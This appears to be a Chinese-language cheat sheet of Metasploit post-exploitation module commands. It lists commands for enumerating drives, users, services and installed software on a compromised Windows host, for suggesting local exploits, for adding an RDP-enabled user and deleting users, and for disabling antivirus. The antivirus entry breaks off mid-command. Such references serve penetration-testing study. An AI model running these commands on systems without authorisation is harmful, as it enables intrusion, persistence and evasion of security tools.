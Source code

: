 ## 一、介绍

```php
	post（后渗透模块），在攻击者拿到权限后，用于进一步对目标和内网进行渗透。
```



## 二、常用命令

### 1、获取目标分区情况

```php
	run post/windows/gather/forensics/enum_drives
```

### 2、检测是否是虚拟主机

```
	run post/windows/gather/checkvm
```

### 3、获取当前安装的应用程序

```
	run post/windows/gather/enum_applications
```

### 4、获取用户登录信息

```
	run post/windows/gather/enum_logged_on_users
```

### 5、对目标进行漏洞扫描

```
	run post/multi/recon/local_exploit_suggester
```

### 6、收集系统环境信息

```
	run post/multi/gather/env
```

### 7、查看开启服务

```
	run post/windows/gather/enum_services
```

### 8、查看目标主机最近的操作

```
	run post/windows/gather/dumplinks
```

### 9、添加用户

```
	run post/windows/manage/enable_rdp USERNAME=zmsn PASSWORD=zmsn
```

### 10、删除用户

```
	run post/windows/manage/delete_user username=zmsn
```

### 11、关闭杀软

```
	windows/manage/k
```

